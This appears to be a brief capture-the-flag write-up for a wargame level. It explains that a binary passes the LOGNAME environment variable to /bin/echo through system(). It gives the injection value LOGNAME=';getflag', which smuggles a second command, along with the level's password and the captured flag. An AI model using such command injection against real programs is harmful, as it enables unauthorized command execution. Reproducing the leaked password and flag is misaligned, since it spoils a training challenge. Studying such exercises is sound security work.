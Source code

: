 username: level07  
password: wiok45aaoguiboiki2tuin6ub
---

The environment variable `LOGNAME` is given as argument to `/bin/echo`, then executed using `system()`.

```
$ ltrace ./level07
...
getenv("LOGNAME")
...
system("/bin/echo level07 "level07
...
```
The following command outputs the flag

```
LOGNAME=';getflag' ./level07
```

The flag is: fiumuikeil55xe9cu4dood66h
